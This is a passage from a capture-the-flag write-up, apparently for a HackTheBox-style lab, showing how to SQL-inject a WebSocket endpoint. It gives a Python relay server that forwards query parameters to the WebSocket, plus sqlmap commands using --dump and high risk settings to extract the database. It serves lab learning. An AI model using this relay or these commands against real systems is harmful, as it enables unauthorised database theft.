 ```python
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()

print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

Here we change the real cookie with the one that we need or `{'id':'*'}` , like this we can run the server from a terminal and then run sqlmap from the other by using `http://localhost:8081/?id=1` as url

Like this we can extract whatever we want

```bash
# [0] zsh
python3 WebSocketSQLi.py
# [1] zsh
sqlmap -u "http://localhost:8081/?id=*" -p "id" -o --batch --dump --thread 30
```
Here is the result

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/11b755ed-69cf-4634-8bb8-eb8a5864f0b3" load="lazy"></img>



Instead we could only use Sqlmap by specifying the argument that we want to pass through the request with the `--data` flag and specifying the cookie we like.

```python
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --threads 50 --level 5 --risk 3 --batch --dump
```
